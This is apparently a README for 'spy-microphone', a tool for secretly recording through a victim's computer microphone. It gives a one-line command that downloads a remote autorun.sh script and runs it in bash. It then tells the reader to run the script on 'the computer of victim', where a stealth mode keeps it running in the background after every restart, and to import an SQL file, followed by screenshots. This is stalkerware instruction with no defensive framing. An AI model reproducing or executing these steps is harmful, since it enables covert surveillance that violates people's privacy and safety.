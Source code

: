 
   For use spy-microphone please follow instructions <br><br>

   Easy remote command for spy: <br>
   bash <(curl -s https://raw.githubusercontent.com/makdosx/spy-microphone/master/shell/autorun.sh) <br><br>

    i) Run the file autorun.sh in  the computer of victim and set your params 
       Stealth Mode <br>
         With this feature the bug will continue if it works whenever the victim opens the computer 
         automatically by running in the background.
         
  ii) import the sql file in to your database 


  iii) The spy-microphone ready to use 

![1](png/1.png) <br> <br> <br> 

![2](png/2.png) <br> <br> <br> 

![3](png/3.png) <br> <br> <br> 

![4](png/4.png) <br> <br> <br> 

![5](png/5.png) <br> <br> <br> 

![0](png/0.jpg) 

